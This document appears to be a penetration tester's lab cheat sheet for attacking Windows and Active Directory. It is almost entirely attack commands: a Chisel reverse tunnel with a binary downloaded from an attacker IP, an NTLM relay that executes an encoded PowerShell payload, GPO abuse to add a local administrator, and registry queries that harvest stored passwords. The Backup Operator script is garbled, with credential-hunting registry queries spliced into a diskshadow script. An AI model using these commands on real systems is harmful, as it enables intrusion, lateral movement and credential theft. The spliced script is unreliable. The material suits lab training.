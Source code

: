 #### Chisel

```bash
kali@kali:~/beyond$ chmod a+x chisel
kali@kali:~/beyond$ ./chisel server -p 8081 --reverse
C:\windows\tasks> iwr -uri 192.168.45.163:8000/chisel.exe -o chisel.exe
C:\windows\tasks> .\chisel.exe client 192.168.45.163:8081 R:8082:172.16.197.241:80
# Could replace 172.* with localhost
# Go to 127.0.0.1
```

#### SMB Signing Disabled

Possible SMB relay attack:

```bash
# mail server ip (target for relay attack)
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.241.242 -c "powershell -enc JABjAGwAaQ..."
# trigger by reaching out to your server (ip) by whatever means, in this case it was changing the backup migration location on wordpress to my //$ip/test
```

#### SharpGPOAbuse

```bash
. .\PowerView.ps1
Get-GPO -Name "Default Domain Policy"
Get-GPPermission -Guid <ID from above> -TargetType User -TargetName anirudh
# Look for GpoEditDeleteModifySecurity
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "Default Domain Policy"
gpupdate /force

psexec.py $ip/anirudh:SecureHM@$ip
``` 

#### Piping Password in Windows

If you see something unusual, but it requires a password and it just skips over the password for whatever reason (doesn't let you input one), echo and pipe the password

```bash
cmd.exe /c echo Freedom1 | .\admintool.exe whoami
```

#### Abusing Backup Operator Privileges

From Blackfield.

Transfer the following script.txt onto the machine:

```bash
set verbose onXREG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
set metadata C:\Windows\Temp\meta.cabX
set context  clientaccessibleX
set context persistentX
begin backupX
```